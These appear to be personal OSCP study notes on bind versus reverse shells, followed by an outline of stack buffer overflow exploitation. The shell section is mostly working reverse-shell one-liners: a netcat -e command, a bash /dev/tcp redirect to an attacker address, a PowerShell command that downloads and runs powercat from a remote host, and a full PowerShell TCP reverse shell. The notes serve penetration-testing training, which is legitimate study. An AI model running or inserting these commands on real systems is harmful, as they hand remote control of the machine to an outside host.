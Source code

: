 # OSCP Notes

## Bind shell vs reverse shell

### Bind shell

Basically, we are opening a port with our shell for other people to execute
- Client computer starts up a listening session with shell executing on that port
- Connector just connects to the listening port that has shell already running

### Reverse shell

Basically, we are sending our own shell over to the operator
- Operator listens on a port
- Client computer connects to the listening port on the operator with the client's own shell
- Operator now has control of clients shell

#### Netcat reverse shell
```sh
nc <listening_host> <listening_port> -e /bin/bash
```

#### TCP revsrse shell
```sh
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
```

#### Powercat reverse shell example

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
```

#### Powershell reverse shell

```sh
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
## Buffer overflows

1. Search for buffer overflow vunlerability by determining at what length does the program crash
2. Search for where instruction pointer is overwritten by generating non-repeating payload then finding the offset at which `eip` is overwritten
3. Find the bad characters by using all the possible hex values and looking at the stack to see which characters didn't make it through
4. Find which register points to somewhere in the stack where we can write to
5. Find an instruction that jumps to the register ie. `jmp esp`
6. Get that instructions address and overwrite `eip` with that
7. Use the register's location and put our shell code there
